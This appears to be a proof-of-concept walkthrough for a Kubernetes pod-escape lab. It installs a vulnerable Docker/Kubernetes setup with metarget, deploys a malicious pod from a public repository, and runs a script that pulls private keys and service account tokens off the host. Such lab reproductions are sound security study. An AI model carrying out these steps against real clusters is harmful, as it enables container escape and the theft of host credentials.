 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Basic environment setup for Docker and K8+. Execute the following commands inside the metarget folder.<br/>
`./metarget gadget install docker --version 18.03.1` <br/>
`./metarget gadget install k8s --version 1.16.5 --domestic`
2. Prepare the vulnerable environment using the following command. <br/>
`./metarget cnv install mount-var-log`

3. Clone the repository which contains the configuration file, `escraper.yml`, for malicious Pod. <br/>
`git clone https://github.com/danielsagi/kube-pod-escape.git`
4. Exec into the pod. The pod contains built-in exploit code which will read any files from the host.<br/>
`kubectl exec -it mount-var-log -n metarget bash`
5. Execute the `find_sensitive_files.py` script which downloads private key files and kubernetes service account tokens from the host.<br/>
`python find_sensitive_files.py`
6. To verify the files are downloaded in the pod, check the files in the following directories.<br/>
`cd /root/exploit/host_files/tokens`<br/>
`cd /root/exploit/host_files/private_keys`


